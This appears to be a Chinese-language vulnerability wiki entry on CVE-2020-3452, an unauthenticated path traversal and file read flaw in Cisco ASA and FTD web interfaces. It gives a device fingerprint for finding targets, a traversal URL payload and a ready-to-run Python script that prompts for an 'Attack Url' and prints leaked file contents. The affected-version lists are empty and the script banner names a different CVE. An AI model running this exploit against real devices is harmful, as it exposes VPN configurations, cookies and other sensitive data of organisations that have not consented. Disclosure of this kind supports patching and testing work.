

# Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 漏洞影响

- Cisco ASA设备：


- Cisco FTD设备：


## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

**POC如下**

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Cisco                                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vnln_url = target_url + "/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
    headers = {
        "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36"
    }

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    response = requests.get(url=vnln_url, headers=headers, verify=False ,timeout=20)
    if "Bad Request" in response.text:
            print("\033[31m[x] 漏洞已修复 \033[0m")
    else:
            print("\033[32m[o] 存在漏洞，响应为\n\033[0m",response.text)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

